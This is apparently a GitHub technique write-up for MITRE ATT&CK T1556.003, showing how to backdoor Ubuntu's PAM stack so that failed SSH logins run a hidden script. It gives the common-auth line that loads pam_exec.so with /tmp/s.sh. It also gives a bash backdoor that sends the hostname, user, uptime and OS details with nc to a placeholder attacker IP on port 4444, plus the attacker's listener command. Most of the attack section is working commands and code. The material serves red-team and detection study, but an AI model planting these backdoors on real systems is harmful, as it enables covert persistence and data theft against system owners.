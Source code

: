 ## [T1556.003-Modify Authentication Process: Pluggable Authentication Modules](https://attack.mitre.org/techniques/T1556/003/)  

### Background  
The pam_exec.so module in Linux Pluggable Authentication Modules (PAM) provides a flexible mechanism to execute custom scripts during various authentication stages. While commonly used for legitimate logging and running scripts for automation, this feature can be maliciously abused to trigger backdoor scripts in response to specific authentication events. In this scenario lets see how to trigger backdoor for SSH failure logins on Ubuntu 22.04. This technique can work in all other ubuntu environments as well. While Group-IB showcased this [technique](https://www.group-ib.com/blog/pluggable-authentication-module/) on Red Hat-based systems like Fedora and CentOS, they didn’t cover Debian-based environments. Here, I demonstrate how the same method works on Ubuntu or Debian-Based Systems. 
### Test Environment: 
**Victim:** Ubuntu 22.04    
**Attacker:** Ubuntu 24.04 (You can choose any OS vendor for this)  
Install netcat on Attacker system.  
**Note:** You can try with any Operating Systems.  

### Implementation:  

#### Step1: Change the PAM config
At victim side, for getting persistence edit the file /etc/pam.d/common-auth file and add the following line below pam_unix.so line.  
``vim /etc/pam.d/common-auth``   
``auth optional pam_exec.so quiet setuid /tmp/s.sh``  
**Note1:** /tmp/s.sh file a backdoor script in this scenario.   
**Note2:** In PAM configuration, the **success=N** directive means: If the current module succeeds, skip the next N lines. So if the ssh authentication is successful the module has to skip the next  3 followed lines. Since the SSH authentication module currently uses success=2, and we are adding an additional line below it, we need to update this value to success=3 to ensure the correct number of lines are skipped on successful authentication.    
**Before:**  
![image](https://github.com/user-attachments/assets/da285bd7-1df4-40e2-9352-1e243c80b773)    

**After:**   

You can observe the modified success value to 3 in pam_unix.so line as shown.  

![PAM-Exec-SSHFailure](https://github.com/user-attachments/assets/d3cf8ab4-b491-46fc-a378-865b55e71808)  
Once you make any changes to PAM configuration you have to restart  
sudo systemctl restart ssh  


#### Step2: Drop Backdoor script 
At victim side. 
**Backdoor script:** 
```
#!/bin/bash 

REMOTE_IP="<attackerIP>" 
REMOTE_PORT="4444" 
echo -e "Hostname: $(hostname)\nUser: $(whoami)\nUptime: $(uptime)\nOSDetails:$(uname -a)" | nc $REMOTE_IP $REMOTE_PORT
```  
``chmod 770 /tmp/s.sh``  
``chmod +x /tmp/s.sh``  

#### Step3: Listen for incoming connections and try ssh auth failures - Attacker Side:  
listen for incoming connections.  
```nc -lvp 4444```  
Try repeatedly logging into the victim machine’s SSH with invalid credentials to generate authentication failures that will trigger the backdoor as shown below screenshot.  
```ssh user@<victimIp>```    
Finally the output looks like below.  

![2025-06-03_21-09](https://github.com/user-attachments/assets/89aadc9b-46ca-4925-8996-c6305434d260)  
